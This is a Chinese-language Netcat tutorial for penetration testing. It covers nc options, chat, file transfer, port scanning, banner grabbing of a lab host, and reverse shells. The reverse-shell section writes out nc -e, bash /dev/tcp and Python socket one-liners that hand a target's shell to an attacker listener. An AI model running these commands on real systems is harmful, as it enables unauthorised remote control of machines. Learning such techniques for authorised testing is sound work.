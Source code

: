 # Netcat瑞士军刀使用

## 一、Netcat瑞士军刀介绍

Netcat瑞士军刀介绍

Netcat 常称为 nc，拥有“瑞士军刀”的美誉。nc 小巧强悍，可以读写TCP或UDP网络连接，它被设计成一个可靠的后端工具，能被其它的程序或脚本直接驱动。同时，它又是一个功能丰富的网络调试和开发工具，因为它可以建立你可能用到的几乎任何类型的连接，以及一些非常有意思的内建功能，它基于socket协议工作。在渗透测试领域，我们通常利用它来反弹shell。

## 二、常用参数

```shell
- d ：后台模式
- e ：在连接后执行程序，程序名称附加在后面。
- g ：设置网关，常用与内网突破
- G ：路由跳数。
- h ：帮助信息
- i ：设置发送每一行数据的时间间隔
- l ：设置nc处于监听状态等待连接。
- L ：设置nc处于监听状态等待连接，当客服端断开，服务器依旧回到等待状态。
- n ：指定数字的IP地址，不能用hostname
- o ：file 记录16进制的传输
- p ：port 本地端口号
- r ：随机本地及远程端口
- s ：addr 本地源地址
- t ：使用telnet交互方式
- u ：UDP模式
- v ：详细输出--用两个-v可得到更详细的内容
- w ：设置连接超时时间
- z ：将输入输出关掉--用于扫描时
123456789101112131415161718
```

## 三、实战

### 1、聊天室

打开一个终端输入`nc -l -p [localport]`作为服务器，再打开另一个终端输入`nc [remote_addr] [remote_port]`作为客户端。然后回车，在任意一个终端内输入字符，另一个终端接收到并打印出来，如下图所示。

**服务端：**`nc -l -p 4444`

![image-20201117113959089](Netcat瑞士军刀使用/image-20201117113959089.png)
**客户端：**`nc.exe 192.168.226.129 4444`

![image-20201117114009268](Netcat瑞士军刀使用/image-20201117114009268.png)

### 2、文件传输

服务端往客户端传送文件

**服务端**：`kali@kali:~/桌面$ nc -lvp 8888 < 1.txt`

![image-20201117114018241](Netcat瑞士军刀使用/image-20201117114018241.png)
**客户端**：`C:\Users\Administrator\Desktop\netcat-1.11>nc.exe -nv 192.168.226.129 8888 > test.txt`

![image-20201117114026955](Netcat瑞士军刀使用/image-20201117114026955.png)

### 3、端口扫描

**扫描：**`nc -v -n -z 192.168.226.130 1-1111`

```shell
kali@kali:~/桌面$ nc -v -n -z 192.168.226.130 [1-1111] 端口或端口范围

(UNKNOWN) [192.168.226.130] 445 (microsoft-ds) open
(UNKNOWN) [192.168.226.130] 139 (netbios-ssn) open
(UNKNOWN) [192.168.226.130] 135 (epmap) open
(UNKNOWN) [192.168.226.130] 90 (?) open
(UNKNOWN) [192.168.226.130] 89 (?) open
(UNKNOWN) [192.168.226.130] 88 (kerberos) open
(UNKNOWN) [192.168.226.130] 86 (?) open
(UNKNOWN) [192.168.226.130] 85 (?) open
(UNKNOWN) [192.168.226.130] 84 (?) open
(UNKNOWN) [192.168.226.130] 83 (?) open
(UNKNOWN) [192.168.226.130] 82 (?) open
(UNKNOWN) [192.168.226.130] 81 (?) open
(UNKNOWN) [192.168.226.130] 80 (http) open
123456789101112131415
```

**获取banner：**`nc -nv 192.168.226.130 80`

根据上面扫描出的开放端口可以进一步获取banner

banner 信息来表示欢迎语，其中会包含一些敏感信息，所以获取 banner 也属于信息搜集的范畴。在渗透测试中，典型的 4xx、5xx 信息泄露就属于 banner 泄露的一种。在 banner 信息中，可以获取到软件开发商、软件名称、服务类型、版本号等。而版本号有时候就会存在公开的 CVE 问题，可以直接进行利用。

banner 信息获取的基础是在和目标建立链接后的，只有建立的链接，才可以获取到相应的 banner 信息，当目标对 banner 信息进行隐藏或者配置了禁止读取时，这时的 banner 则获取不到。

```shell
kali@kali:~/桌面$ nc -nv  192.168.226.130 80

(UNKNOWN) [192.168.226.130] 80 (http) open
get                            这里输入get命令

HTTP/1.1 400 Bad Request
Content-Type: text/html; charset=us-ascii
Server: Microsoft-HTTPAPI/2.0
Date: Tue, 22 Sep 2020 07:17:30 GMT
Connection: close
Content-Length: 326

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>Bad Request</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>
<BODY><h2>Bad Request - Invalid Verb</h2>
<hr><p>HTTP Error 400. The request verb is invalid.</p>
</BODY></HTML>

12345678910111213141516171819
```

### 4、nc反弹shell

攻击机：`nc -lvp 8888`

![image-20201117114038984](Netcat瑞士军刀使用/image-20201117114038984.png)

服务机：`nc.exe -t -e cmd.exe 192.168.226.129 8888`

![image-20201117114047443](Netcat瑞士军刀使用/image-20201117114047443.png)

### 5、服务机没有安装nc情况如何反弹shell？

#### 1）bash -i 反弹shell

当我们拿到一台服务器权限之后，发现这台服务器没有安装nc。这种情境下我们可以在接收端上输入nc - lvp port用于监听指定端口的信息，并接收服务器反弹过来的shell。目标服务器下输入`bash -i >& /dev/tcp/ip/port 0>&1`用于反弹shell到指定接收端端口。

命令解释：

bash -i 表示以交互模式运行bash shell。 在重定向符 >&后面加文件，是将bash以交互模式传递给文件。/dev/tcp/ip/port 表示传递给远程主机的IP地址对应的端口。命令中的0>&1表示将标准输入重定向到标准输出，实现远程的输入可以在远程输出对应内容。

服务器的shell反弹到客户机：Liunx----->Windows

客户端：

![image-20201117114100395](Netcat瑞士军刀使用/image-20201117114100395.png)

服务器：

![image-20201117114108288](Netcat瑞士军刀使用/image-20201117114108288.png)

#### 2）python反弹

当我们拿到服务器的权限后，想要设置一个反弹shell。但是目标服务器上没有安装nc，但是安装了python。

```python
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
1
```

客户机：

![image-20201117114118724](Netcat瑞士军刀使用/image-20201117114118724.png)
服务器：

![image-20201117114129633](Netcat瑞士军刀使用/image-20201117114129633.png)